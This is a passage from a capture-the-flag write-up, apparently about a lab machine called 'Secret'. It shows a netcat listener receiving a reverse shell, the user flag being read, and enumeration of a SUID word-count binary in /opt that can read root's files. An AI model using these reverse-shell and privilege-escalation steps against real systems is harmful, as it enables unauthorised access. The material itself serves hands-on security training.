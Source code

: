```bash
nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.120 44874
bash: cannot set terminal process group (1093): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ id
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
```

## get user.txt
```bash
cat user.txt
53744424************************
```
#### Shell as root
### Enumeration

## The home directory of dasith is pretty empty otherwise. Looking around the rest of the box, /opt has interesting files:
```bash
dasith@secret:/opt$ ls -l
total 32
-rw-r--r-- 1 root root  3736 Oct  7 10:01 code.c
-rwsr-xr-x 1 root root 17824 Oct  7 10:03 count
-rw-r--r-- 1 root root  4622 Oct  7 10:04 valgrind.log
```
## count is a SUID binary, which means it will run as it’s owner regardless of who runs it. In this case, that user is root. Running it prompts for a filename:
```bash
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: 
```
## It’s doing a fancy word count on the given file (and adding an extra word and line?), and then prompting about saving to a file. If I say yes, it save these stats:

```bash
Save results a file? [y/N]: y
Path: /tmp/blackbash
dasith@secret:/opt$ cat /tmp/blackbash 
Total characters = 33
Total words      = 2
Total lines      = 2
```
## Giving it a directory instead of a file, it prints the files in that directory and their permissions:
